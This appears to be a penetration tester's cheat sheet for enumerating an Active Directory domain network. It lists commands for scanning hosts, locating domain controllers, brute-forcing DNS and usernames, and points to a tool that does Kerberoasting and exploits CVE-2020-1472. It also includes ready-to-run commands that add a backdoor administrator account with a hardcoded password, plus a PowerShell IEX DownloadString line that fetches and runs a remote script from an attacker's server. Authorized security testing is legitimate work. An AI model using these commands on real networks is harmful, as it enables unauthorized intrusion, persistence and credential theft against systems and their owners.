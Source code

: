 ```yaml
---
description: Enumerate the network and its services, find the DC,
---
```


# Domain Network Enumeration

## Network Enumeration

```bash
nmap -sP -p $ip #ping scan
nmap -Pn -n -T4 -v3 $ip #quick scan
rustscan -a $ip
```

## Domain Name

```bash
nxc smb $network_ip
```

## Domain Controllers

They are usually DNS Servers. They have usually LDAP listening port 389.

<pre class="language-bash"><code class="lang-bash"><strong># with nmap
</strong><strong>nmap -p53,88,389 $network_ip --open -v -oN dc
</strong># with nmcli
nmcli dev show $iface
# with nslookup
nslookup -type=SRV _ldap._tcp.dc.msdcs.$domain
</code></pre>

## Enumerate alive machines

<pre class="language-bash"><code class="lang-bash"><strong># with zmap
</strong><strong>sudo zmap -i $iface -P 2 --probe-module=icmp_echoscan -B 1M --max-targets=10000000 -o targets_rfc1918.txt $network_ips
</strong><strong>
</strong><strong># with arp-scan
</strong>arp-scan -d $networkrange

# with nxc - smb, ssh, rdp
nxc smb $networkrange
</code></pre>

## Enumerate services

### DNS

```bash
# test for dns attacks
dnsenum $domain -f /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt --dnsserver $dns_server_ip > dnsenum.txt

# discover printers, web, shares, vpn, media
gobuster dns -d $domain -t 25 -w /opt/Seclist/Discovery/DNS/subdomain-top2000.txt
```

### Users Enumeration

```bash
# LINUX HOST
# no auth
# netexec
nxc smb $ip -u anonymous -p "" --rid-brute 10000

# kerbrute
kerbrute -domain $domain -dc-ip $ip -users /tools/payloads/SecLists/Usernames/xato-net-10-million-usernames.txt
```

```powershell
# WINDOWS HOST
GetADUsers.py $domain/ -dc-ip $ip

# Get all of the OUs in a domain
Get-ADOrganizationalUnit -Filter 'Name -like "*"' | Format-Table Name, DistinguishedName -A

### Create a new user in admin groupe 

# username:password = anon:p3nT3st!
net user anon p3nT3st! /add
net localgroup administrators anon /add

net user anon p3nT3st! /add;net localgroup administrators anon /add

If you cannot import module start a webserver and
IEX(New-Object Net.Webclient).downloadstring('http://<IP>/Powershell.ps1')
```

## Automatic tools

### AD Enum

* ASREPRoasting
* Kerberoasting
* Dump AD as BloodHound JSON files
* Searching GPOs in SYSVOL for cpassword and decrypting
* Run without creds and attempt to gather for further enumeration during the run
* Sample exploits included:
  * **CVE-2020-1472**

{% embed url="https://github.com/CasperGN/ActiveDirectoryEnumeration" %}

### Install

```bash
pip3 install ActiveDirectoryEnum
python -m ade

# query exploit for poc
python -m ade --exploit cve-2020-1472
```
